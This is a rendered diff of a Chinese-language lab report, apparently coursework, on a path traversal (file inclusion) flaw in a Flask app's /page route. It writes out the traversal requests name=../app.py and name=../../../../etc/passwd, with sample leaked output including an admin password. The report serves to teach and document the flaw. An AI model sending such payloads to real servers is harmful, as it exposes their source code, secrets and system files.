

Before and after one commit to Dazzling1-LJY/LL, a Markdown page: Class01/文件包含漏洞检测报告.md, the part around one of its changes. Shown at 80% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/Class01/文件包含漏洞检测报告.md
+++ b/Class01/文件包含漏洞检测报告.md
@@ -155,67 +137,87 @@ def dynamic_page():
 
 #### 漏洞详情
 
-`/page` 路由接收用户通过 URL 参数 `name` 传入的文件名，直接拼接到文件路径中 `os.path.join(app.root_path, "pages", name)`，然后读取并返回文件内容。代码存在以下问题：
-
-| 问题 | 说明 |
-|:-----|:------|
-| **无路径校验** | 未检查 `name` 中是否包含 `../` 等路径穿越字符 |
-| **无路径规范化** | 未使用 `os.path.abspath` 或 `os.path.realpath` 规范化路径 |
-| **无认证保护** | 未添加 `@login_required`，未登录也可访问 |
-| **无文件类型限制** | 可读取 `.py`、`.db`、`.css`、`.html` 等任意类型文件 |
-| **安全过滤器使用** | `{{ page_content \| safe }}` 直接渲染不转义 |
-
-攻击者利用 `../` 实现目录跳转，可读取 `pages/` 目录以外的任意文件。
+系统通过用户传入的 `name` 参数加载 `pages/` 目录下的文件。虽然基本功能要求读取 `pages/` 中的文件，但代码未限制只能读取该目录。最基本的利用方式是传入合法文件名访问正常页面。
 
 #### 攻击方法与演示
 
-##### 攻击向量 1：读取应用源码（app.py）
+| 攻击方式 | 请求 | 结果 |
+|:---------|:-----|:------|
+| 正常访问 | `/page?name=help` | ✅ 正常显示帮助页面 |
+| 访问不存在文件 | `/page?name=nonexistent` | ✅ 显示"页面不存在" |
+
+**截图区域**：
+
+> （在此处插入基本文件包含的攻击截图）
+
+---
+
+### 3.2 路径遍历（Path Traversal）
 
 | 属性 | 内容 |
 |:-----|:------|
-| **攻击方式** | 路径穿越读取 Python 源码 |
+| **漏洞编号** | LFI-PATH-001 |
+| **漏洞名称** | 路径遍历 — 目录穿越读取任意文件 |
+| **漏洞类型** | 路径遍历（Path Traversal） |
+| **CWE 编号** | CWE-22：Improper Limitation of a Pathname to a Restricted Directory |
+| **OWASP 分类** | A01:2021 – Broken Access Control |
+| **风险等级** | 🔴 **严重** |
+| **漏洞位置** | `app.py` 第 570 行 |
+
+#### 漏洞代码
+
+```python
+name = request.args.get("name", "")               # ← 用户输入未过滤
+page_path = os.path.join(app.root_path, "pages", name)  # ← 直接拼接
+```
+
+#### 漏洞详情
+
+`name` 参数未做任何 `../` 过滤或路径规范化处理。攻击者通过注入 `../` 进行目录回溯，可读取 `pages/` 目录以外的任意文件。`os.path.join()` 会将 `../` 作为路径的一部分保留，不进行规范化。
+
+#### 攻击方法与演示
+
+##### 攻击 1：读取应用源码
+
+| 项目 | 内容 |
+|:-----|:------|
 | **恶意输入** | `name=../app.py` |
-| **构建路径** | `os.path.join(root_path, "pages", "../app.py")` → `root_path/app.py` |
+| **实际路径** | `/opt/Class01/Class01/pages/../app.py` = `/opt/Class01/Class01/app.py` |
 
-**攻击请求**：
+**请求**：
 ```
 GET /page?name=../app.py HTTP/1.1
 ```
 
-**攻击结果**（成功 ✅）：
+**结果**（成功 ✅）：
 ```
-应用完整源码被读取，泄露内容包括：
-- app.secret_key ✅
-- USERS 用户字典（含密码哈希） ✅
-- 数据库配置路径 ✅
-- 所有路由逻辑 ✅
-- 管理员密码 admin123 ✅
+# app.py 完整源码泄露（20392 字符）
+泄露内容：
+- app.secret_key（用于 session 加密签名的密钥）
+- USERS 字典（邮箱、手机、余额）
+- 管理员密码 admin123
+- 数据库路径 DB_PATH
+- 所有路由逻辑代码
 ```
 
-**截图区域**：
+##### 攻击 2：读取系统密码文件
 
-> （在此处插入读取 app.py 源码的页面截图——显示源码内容）
+| 项目 | 内容 |
+|:-----|:------|
+| **恶意输入** | `name=../../../../etc/passwd` |
+| **实际路径** | `/opt/Class01/Class01/pages/../../../../etc/passwd` → `/etc/passwd` |
 
-##### 攻击向量 2：读取系统密码文件（/etc/passwd）
-
-| 属性 | 内容 |
-|:-----|:------|
-| **攻击方式** | 多级路径穿越读取系统文件 |
-| **恶意输入** | `name=../../../../etc/passwd` |
-| **构建路径** | `os.path.join(root_path, "pages", "../../../../etc/passwd")` |
-
-**攻击请求**：
+**请求**：
 ```
 GET /page?name=../../../../etc/passwd HTTP/1.1
 ```
 
-**攻击结果**（成功 ✅）：
+**结果**（成功 ✅）：
 ```
-读取到 /etc/passwd 文件内容：
 root:x:0:0:root:/root:/usr/bin/zsh
 daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
 ...
 ```
 
-**截图区域**：
+##### 攻击 3：读取 HTML 模板文件
 
````
Also changed, not shown: other parts of Class01/文件包含漏洞检测报告.md (+325 -248 lines).
